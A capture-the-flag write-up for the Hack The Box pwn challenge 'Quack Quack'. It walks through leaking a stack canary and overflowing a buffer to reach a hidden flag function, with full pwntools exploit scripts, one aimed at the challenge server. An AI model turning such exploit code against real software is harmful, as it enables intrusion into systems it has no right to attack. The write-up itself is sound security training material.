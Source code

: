 # Quack Quack - Writeup

**Platform:** *Hack The Box*

**Category:** *pwn*

**Difficulty:** *very easy*

**Link:** https://app.hackthebox.com/challenges/Quack%2520Quack


## Solution

I started by checking some basic information about the binary:

<p align="center">
<img src="../../resources/HackTheBox/Quack1_0.png" alt="Output of file command"/>
</p>
<p align="center">
<img src="../../resources/HackTheBox/Quack1_1.png" alt="Output of checksec command"/>
</p>

Next, I executed the binary to understand its execution flow:

<p align="center">
<img src="../../resources/HackTheBox/Quack2.png" alt="First input"/>
</p>
I needed to find a way to progress further in the program. So, I disassembled the binary and found the following code:

<p align="center">
<img src="../../resources/HackTheBox/Quack3_0.png" alt="First input assembly"/>
</p>
<p align="center">
<img src="../../resources/HackTheBox/Quack3_1.png" alt="First input pseudo-C"/>
</p>
From this, I noticed that the input had to be "Quack Quack "**:

<p align="center">
<img src="../../resources/HackTheBox/Quack4.png" alt="Second input"/>
</p>

After that input, the binary produced more output. I then analyzed the next input processing code:

<p align="center">
<img src="../../resources/HackTheBox/Quack5_0.png" alt="Second input assembly"/>
</p>
<p align="center">
<img src="../../resources/HackTheBox/Quack5_1.png" alt="Second input pseudo-C"/>
</p>

I also found a hidden function called `duck_attack`, which wasn’t reachable through the normal control flow and returned the flag:

<p align="center">
<img src="../../resources/HackTheBox/Quack6_0.png" alt="The hidden function in functions table"/>
</p>
<p align="center">
<img src="../../resources/HackTheBox/Quack6_1.png" alt="hidden function content"/>
</p>

To reach it, I needed to overwrite the return address, but the binary had a **stack canary**, which complicated things.

In the code handling the first input, I noticed a call to `strstr` which searches for a pattern in the string and returns everything from the matched part onward. The `printf` output added a 0x20 (32-byte) padding, so only the bytes after that were displayed:

<p align="center">
<img src="../../resources/HackTheBox/Quack7.png" alt="Bytes display demonstration"/>
</p>

To leak the **stack canary**, I used a **format string vulnerability** in the `printf` function. There were 120 bytes (`0x88 - 0x10`) between the first input buffer and the canary:

<p align="center">
<img src="../../resources/HackTheBox/Quack8.png" alt="Locations of variables on the stack"/>
</p>

In addition, there was a 32-byte padding, so I needed 88 bytes of padding, the string `"Quack Quack "`, and one more byte to prevent a null terminator from stopping `printf`. I wrote the following script to leak the canary:

```python
from pwn import *

context.log_level = 'debug'

p = process('./quack_quack')

p.sendafter('> ', flat([b'A' * 89, b'Quack Quack ']))

p.interactive()
```

<p align="center">
<img src="../../resources/HackTheBox/Quack9.png" alt="Canary leak"/>
</p>

Then I modified the script to extract just the canary:

```python
from pwn import *

context.log_level = 'debug'

p = process('./quack_quack')

p.sendafter('> ', flat([b'A' * 89, b'Quack Quack ']))

data = p.recvline_startswith(b'Quack Quack').split(b',')[0].strip(b'Quack Quack')[:7]
print(data)

p.interactive()
```
<p align="center">
<img src="../../resources/HackTheBox/Quack10.png" alt="Canary leak"/>
</p>

After leaking the canary, I proceeded to overflow the second buffer. It required 88 bytes of padding (`0x68 - 0x10`), the canary, a saved `rbp`, and the address of `duck_attack`. I wrote this script:

```python
from pwn import *

elf = context.binary = ELF('./quack_quack')
duck_attack = elf.symbols['duck_attack']

context.log_level = 'debug'

p = process('./quack_quack')

p.sendafter('> ', flat([b'A' * 89, b'Quack Quack ']))

data = p.recvline_startswith(b'Quack Quack').split(b',')[0].strip(b'Quack Quack')[:7]

canary = u64(b'\0' + data)

p.sendafter('> ', flat([b'A' * 88, canary, b'A' * 8, duck_attack]))

p.interactive()
```
<p align="center">
<img src="../../resources/HackTheBox/Quack11.png" alt="Fake flag"/>
</p>

That gave me a fake flag locally. To get the real flag, I modified the script to connect via `netcat`:

```python
from pwn import *

elf = context.binary = ELF('./quack_quack')
duck_attack = elf.symbols['duck_attack']

context.log_level = 'debug'

p = remote('94.237.53.189', 41528)

p.sendafter('> ', flat([b'A' * 89, b'Quack Quack ']))

data = p.recvline_startswith(b'Quack Quack').split(b',')[0].strip(b'Quack Quack')[:7]

canary = u64(b'\0' + data)

p.sendafter('> ', flat([b'A' * 88, canary, b'A' * 8, duck_attack]))

p.interactive()
```

And I got a flag:

<p align="center">
<img src="../../resources/HackTheBox/Quack12.png" alt="Flag"/>
</p>
